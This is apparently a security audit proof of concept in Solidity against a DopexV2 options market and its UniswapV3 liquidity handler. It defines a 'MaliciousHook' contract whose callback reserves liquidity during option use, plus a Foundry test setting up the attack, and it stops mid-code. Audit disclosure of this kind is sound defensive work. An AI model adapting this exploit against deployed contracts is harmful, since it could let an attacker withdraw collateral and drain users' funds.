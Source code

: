 Here is a POC that can be copied and pasted in `DopexV2OptionMarketV2.t.sol`, need to add a `tts` of 12 hours in the `setUp()`:

```solidity
contract MaliciousHook {
    UniswapV3SingleTickLiquidityHandlerV2 immutable uniV3Handler;
    UniswapV3SingleTickLiquidityHandlerV2.BurnPositionParams burnParams;

    constructor(address _handler) {
        uniV3Handler = UniswapV3SingleTickLiquidityHandlerV2(_handler);
  }

    function setBurn(UniswapV3SingleTickLiquidityHandlerV2.BurnPositionParams memory _burnParams) external {
        burnParams = _burnParams;
    }

    function onPositionUse(bytes calldata _data) external {
        uniV3Handler.reserveLiquidity(abi.encode(burnParams));
    }

    function withdrawReserved() external {
       uniV3Handler.withdrawReserveLiquidity(abi.encode(burnParams));
    }

    function onPositionUnUse(bytes calldata _data) external {}
}

function testBuyCallOptionAndWithdrawCollateral() public {
        //create and deploy attacker
        address attacker = makeAddr("attacker");
        MaliciousHook maliciousHook = new MaliciousHook(address(uniV3Handler));

        //this is a helper contract that mints a position for the user of our choice, we mint liquidity for the malicious hook
        //In reality we would have to add the functionality to the hook or mint and then transfer but thanks to this helper contract we don't need to
        uint shares = positionManagerHarness.mintPosition(
            token0,
            token1,
            0,
            5e18,
            -76260, // ~2050,
            -76250, // ~2048,
            pool,
            address(maliciousHook),
            address(maliciousHook)
        );

        //set the burn struct corresponding to liquidity minted on our hook for the callback
        maliciousHook.setBurn(UniswapV3SingleTickLiquidityHandlerV2.BurnPositionParams({
            pool: pool,
            hook: address(maliciousHook),
            tickLower: -76260,
            tickUpper: -76250,
            shares: uint128(shares - 1)
        }));

        //setup the option minting, just copy-pasted one of the tests and modified with the malicious hook
        {
            uint256 l = LiquidityAmounts.getLiquidityForAmount1(
                tickLowerCalls.getSqrtRatioAtTick(),
                tickUpperCalls.getSqrtRatioAtTick(),
```